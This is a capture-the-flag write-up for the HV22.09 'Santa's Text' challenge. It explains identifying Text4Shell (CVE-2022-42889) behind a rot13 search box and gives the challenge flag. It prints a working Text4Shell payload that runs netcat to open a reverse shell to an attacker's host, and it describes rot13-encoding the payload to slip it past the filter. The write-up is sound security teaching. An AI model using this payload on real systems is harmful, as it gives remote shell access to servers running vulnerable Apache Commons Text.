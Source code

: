 ```yaml
---
title: "[HV22.09] Santa's Text"
date: 2022-12-09 13:25:29 +0100
tags: HV22 CTF penetration medium exploit reverse shell
categories: HV22 medium
sidebar:
  nav: "hv22"
---
```


Santa recently created some Text with a 🐚, which is said to be vulnerable code. Santa has put this Text in his library, putting the library in danger. He doesn't know yet that this could pose a risk to his server. Can you backdoor the server and find all of Santa's secrets?

# Solution

So, we got a website again, which looks like this:
![challenge website](/assets/hv22/hv22_09_website.png)

When we enter some string in the search box, we get it displayed back, shifted with rot13. Usual escape characters like single quotes, double quotes, backslash etc. seem to pass fine, so no visible injection possible at least.

While reading the challenge description again, there are two things sticking out. First, the word **Text** comes up twice and is written with a capital T, and the word shell is written as an emoji. Second, in the description, it is mentioned, that if a reverse shell is needed, VPN has to be used.

The game plan is to find an exploit the vulnerability, and then to get a reverse shell working.

Searching the internet for "text shell vulnerability", you quite quickly land at Text4Shell (CVE-2022-42889) and some [example pocs](https://github.com/securekomodo/text4shell-poc) for it.

It looks like we only have to input `${script:javascript:java.lang.Runtime.getRuntime().exec('nc x.x.x.x 3456 -e /bin/bash')}` and then wait for a connection from the target. Of course, it didn't work because of rot13, but since the website already gives me the rot13 version of the string, I can just copy paste it again to get a shell:

![got a reverse shell](/assets/hv22/hv22_09_shell.png)

From here, it's just a bit of looking around for the flag, which shouldn't be too hard since we already are root. The file /SANTA/FLAG.txt (quite easy to find) gives us the flag **HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}**

![got the flag](/assets/hv22/hv22_09_flag.png)
